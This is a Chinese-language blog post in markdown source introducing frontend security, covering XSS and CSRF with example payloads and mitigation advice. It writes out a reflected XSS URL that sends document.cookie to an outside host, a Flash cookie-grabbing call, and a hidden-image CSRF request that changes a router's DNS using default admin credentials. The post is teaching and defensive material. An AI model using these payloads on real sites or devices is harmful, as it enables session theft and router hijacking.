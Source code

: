 ```yaml
---
layout: post
title: 前端安全的那些事
---
```


> Ajax的兴起，带了前端技术的飞速发展，安全问题已经悄悄的从服务端转了前端。

常见的攻击手段有：

+ XSS（跨站脚本攻击）
+ CSRF(伪造请求攻击)

##XSS（跨站脚本攻击）##

###往web页面里插入恶意的html代码###

####页面中输入DOM节点####

<pre>
&lt;img src="xxx.gif" onload="window.location.href='johnqing.github.io'"&gt;
</pre>

####页面中输入js脚本####

<pre>
window.location.href='johnqing.github.io'
</pre>

如果用户在，用户信息等form表单中输入

<pre>
window.location.href='johnqing.github.io'
</pre>

就会造成用户打开该页面就会执行自动跳转

####基于字符集的XSS####

用户在添加表单时，可输入如下代码：

<pre>
&lt;p&gt;
</pre>

就可能造成页面错乱

###当用户浏览当前页面时，页面中html代码会被执行###

某网站的一个请求地址 和 页面中代码如下：

http://X.com/search.asp?q=ssss

<pre>
搜索结果：&lt;?php $_GET('q') ?&gt;
</pre>

好了，俺偷偷伪造一个请求发送给该网站

<pre>
http://X.com/search.asp?q=&lt;script&gt;window.open("http://johnqing.github.io.cn?cookie="+document.cookie)&lt;/script&gt;
</pre>

瞬间，他的cookie信息，都在这了。

###Flash XSS攻击###

当然flash作为web里一直存在的东东，当然也可以攻击。Flash中的getURL()动作，它可以使我们的页面重定向到函数指定的页面。

<pre>
getURL('javascript:alert(document.cookie)');
</pre>

哈哈 cookie又在我这了。。

###未经验证的跳转造成的跨站###

服务端做302跳转时，跳转的地址来自用户，攻击者 可以输入一个恶意的网址进行跳转来执行脚本。

看了上面的内容，亲们肯定会想到，可以用上面的代码，实现一个钓鱼网站了。（ps：千万别干。。干了也别说我告诉你的。。）

####XSS漏洞修复####

原则：不相信客户输入的数据
注意: 攻击代码不一定在&lt;script&gt;&lt;/script&gt;中

将重要的cookie标记为http only, 这样的话Javascript 的document.cookie语句就不能获取到cookie了.
只允许用户输入我们期望的数据。例如：年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。
对数据进行Html Encode 处理
过滤或移除特殊的Html标签， 例如: &lt;script&gt;, &lt;iframe&gt; ,  &lt; for &lt;, &gt; for &gt;, &quot for
过滤JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。

##CSRF(伪造请求攻击)##

这个例子比较典型了，前几天看到一个同学发了一个他中招的东西，访问一个网站时，它会把你路由器DNS修改为Google 提供的 `8.8.8.8`。
这就是典型的伪造请求攻击。

代码如下：

<pre>
&lt;img style="display: none; " src="http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&amp;ip1=192.168.1.100&amp;ip2=192.168.1.199&amp;Lease=120&amp;gateway=0.0.0.0&amp;domain=&amp;dnsserver=&amp;dnsserver=8.8.8.8&amp;dnsserver2=8.8.8.8&amp;Save=%B1%A3+%B4%E6"&gt;
</pre>

可以想象一下，假如你访问的是你的银行账户，而且丫也支持 `GET` 请求，很容易就会被攻击者利用这种漏洞，从账户中把钱拿出来

还有请勿调用第三的文件。

因为如果该文件被加入了攻击性脚本，你整个网站基本都会沦陷。

####CSRF的防御####

1. 限制验证cookie的到期时间。cookie的合法时间越短，黑客利用你的Web应用程序的机会就越小。
2. 验证码。每次的用户提交都需要用户在表单中填写一个图片上的随机字符串。这个方案可以完全解决CSRF，听闻是验证码图片的使用涉及了一个被称为MHTML的Bug，可能在某些版本的微软IE中受影响。
3. 用户在进行重要业务前输入口令。这可以防止黑客发动CSRF攻击（只要浏览器中没有包含口令），因为这种重要信息无法预测或轻易获得。
4. 使用定制的HTTP头。验证是否符合当前请求头。
5. 只允许GET请求检索数据，但是不允许它修改服务器上的任何数据。
